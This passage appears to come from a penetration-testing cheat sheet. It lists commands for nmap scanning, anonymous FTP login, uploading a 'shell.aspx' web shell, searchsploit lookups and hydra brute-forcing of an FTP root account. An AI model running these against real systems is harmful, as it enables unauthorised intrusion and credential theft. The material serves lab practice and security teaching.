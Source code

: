 ```
$ nmap -sU -p- -oN udp <IP address>
```

- Nmap NSE vulnerability scan

```
$ nmap <IP address> --script vuln
```

- Start SPARTA to assist with automated scanning & enumeration

```
$ sparta
```

Port 21 (FTP)
---------------

- Anonymous Login/Password Reuse

```
$ ftp <IP address>
OR
FileZilla GUI
OR
ftp://<IP address>
OR
$ telnet <IP address>

Username: ftp Password: ftp
Username: anonymous Password: anonymous
```

- Get/Put files

```
ftp> get file.txt
ftp> put shell.aspx
```

- Nmap NSE Scripts

```
$ ls -la /usr/share/nmap/scripts | grep "ftp"
```

- Exploit Version

```
$ searchsploit <term>
```

- Brute-Force

```
$ hydra -l root -P password-file.txt <IP address> ftp
OR
$ hydra -l root -P /usr/share/wordlists/rockyou.txt ftp://<IP address>
OR
Sparta GUI
```
